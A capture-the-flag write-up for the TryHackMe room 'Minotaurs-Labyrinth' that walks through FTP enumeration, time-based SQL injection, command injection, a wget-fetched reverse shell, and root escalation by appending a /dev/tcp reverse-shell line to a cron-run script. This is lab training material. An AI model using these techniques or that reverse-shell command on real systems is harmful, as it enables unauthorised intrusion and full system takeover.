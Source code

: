 ```yaml
---
title: Minotaurs-Labyrinth TryHackMe Writeup
tags: [writeup,tryhackme,linux,time-based,api,command-injection,sql-injection]
style: border
color: success
description: ""
---
```



![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Minotaurs-Labyrinth/1.png)

## Scanning
We run nmap on all ports with scripts and software versions.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Minotaurs-Labyrinth/2.png)

## Enumeration
In the nmap, we see that there is an *FTP* that can be accessed anonymously, we mount the ftp in our kali and list the first flag.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Minotaurs-Labyrinth/14.png)

We found the website, tried default credentials, but nothing.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Minotaurs-Labyrinth/3.png)

We reviewed the source code, found a few comments that might be useful (or fake). We are interested in the "**login.js**" file.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Minotaurs-Labyrinth/4.png)

#### Content of login.js file

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Minotaurs-Labyrinth/5.png)

## Exploitation
We have a comment where comes the password of the user "**Daedalus**", we make the substitution of the arrays and we obtain the credentials.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Minotaurs-Labyrinth/6.png)

We check that the site is vulnerable to SQL Injection (Time-based).

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Minotaurs-Labyrinth/8.png)

#### We obtain databases
![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Minotaurs-Labyrinth/9.png)

#### We obtain tables
![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Minotaurs-Labyrinth/10.png)

#### We obtain People columns
![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Minotaurs-Labyrinth/11.png)

We obtain the flat password using the hash.
![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Minotaurs-Labyrinth/12.png)

We access with the administrator credentials and find a flag.
![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Minotaurs-Labyrinth/13.png)

We find the secret section, we see that we can execute the **ECHO** command from this **PHP** application.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Minotaurs-Labyrinth/15.png)

#### Testing
![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Minotaurs-Labyrinth/16.png)

We tried to bypass it with `command`.

#### PoC
![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Minotaurs-Labyrinth/17.png)

#### Read /etc/passwd
![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Minotaurs-Labyrinth/18.png)

#### Reverse shell
We create a file with our reverse shell "*m3.sh*", download it with "**wget**" on the victim machine, give it execution permissions and execute it.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Minotaurs-Labyrinth/19.png)

#### Executing file m3.sh

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Minotaurs-Labyrinth/20.png)

We check the version of python installed and configure the terminal to have a more interactive session.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Minotaurs-Labyrinth/21.png)

We are looking for the location of the remaining flags.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Minotaurs-Labyrinth/22.png)

#### Read user.txt file

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Minotaurs-Labyrinth/23.png)

## Privilege Escalation
We see the following folder which is not common on a Linux system. Inside, there is a file with a script, it may be running from time to time.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Minotaurs-Labyrinth/25.png)

We download **pspy64**, run it and see how the user "*root (UID=0)*" is running the script every so often.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Minotaurs-Labyrinth/27.png)

We add the following line to the file "**timer.sh**" to get a shell with the user that executes the file.

```bash
echo "bash -i >& /dev/tcp/XX.XX.XX.XX/555 0>&1" >> timer.sh
```

We wait a few minutes and we will get a shell as root and read the flag.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Minotaurs-Labyrinth/26.png)




